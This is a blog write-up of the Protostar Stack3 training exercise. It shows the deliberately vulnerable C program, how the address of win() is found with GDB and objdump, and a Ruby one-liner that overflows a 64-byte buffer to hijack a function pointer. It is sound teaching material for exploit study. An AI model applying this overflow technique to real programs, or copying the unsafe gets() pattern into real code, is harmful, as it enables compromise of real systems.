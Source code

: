 Author: zlowram
Date: 12-09-2014 17:12
Title: Exploit-exercises Protostar Stack3 write-up 
Template: post
Comments: enabled

In this exercise, things start to be more fun. Until now the objective of the previous exercises was to overwrite a value of a variable in order to alter the behaviour of the program.
Now, the objective is to redirect the execution flow of the program, to a function called win().

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

If we pay attention at the provided code, we have a pointer to a function
called fp. If we are able to overwrite its value with the address of the
function win(), then we would successfully redirect the execution flow and,
therefore, solve the exercise.

In order to obtain the address of the funcion win() we have two options, using
GDB or objdump.


 * GDB:
```markup
(gdb) info address win
Symbol "win" is a function at address 0x8048424
```

 * objdump:
```markup
$ objdump -t ./stack3 | grep win
08048424 g     F .text  00000014              win
```

Now that we already have the address of win() (0x8048424), we need to overwrite
the value of fp with it. To do so, we have the classic scenario of buffer
overflow, so we need to calculate the padding needed to step on fp. As it is,
yet again, the same case as the previous stackX exercises, the padding is 64
bytes. Finally, we stuff the 64 byte follwed by the win() address (watch out
the endianess!) and the exercise is solved!

The solution is in the following snippet:

```bash
#!/bin/bash

ruby -e ' print "A"*64 + "\x24\x84\x04\x08" ' | ./stack3
```
